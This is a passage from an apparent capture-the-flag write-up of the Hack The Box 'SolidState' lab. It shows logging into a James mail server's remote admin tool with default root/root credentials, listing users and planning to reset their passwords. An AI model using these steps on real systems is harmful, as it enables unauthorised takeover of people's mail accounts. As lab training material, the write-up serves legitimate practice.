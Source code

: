 ## Initial Foothold <a id="16ff"></a>

First, let’s test the root/root credentials on the James Remote Admin server.

```text
root@kali:~/Desktop/htb/solidstate# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

It works, good! List the available commands using the HELP command.

```text
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Use the listusers command to display existing accounts.

```text
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

We have 5 accounts. Since this is an admin account, we can set a user’s password and then access their account. If this was a real penetration test, you probably don’t want to do that. You’ll raise a lot of red flags when a bunch of users no longer can access their accounts. However, since this is a practice environment, I’m going to go all out. Let’s start by changing the mailadmin user’s account.
